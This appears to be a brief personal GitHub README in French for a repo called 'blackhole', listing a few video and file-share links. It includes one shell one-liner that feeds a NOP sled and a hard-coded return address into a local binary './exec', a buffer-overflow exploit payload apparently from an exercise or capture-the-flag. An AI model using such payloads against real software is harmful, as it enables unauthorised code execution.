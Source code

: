 # blackhole

ce repo est perso (mais sans rien de compromettant) donc pas la peine de le regarder

https://www.youtube.com/watch?time_continue=5&v=uAgFf0sC8hM

#	(python -c 'print 90*"\x90"+"\x84\x64\x04\x08"' ; cat) | ./exec

https://mega.nz/#!XkYiDQaZ!Nj2iCXmUrQh8qEgfq_jZPcW32gvmGqUIplwC6PPMCcE

https://www.youtube.com/watch?v=m9r2zZDiYs4
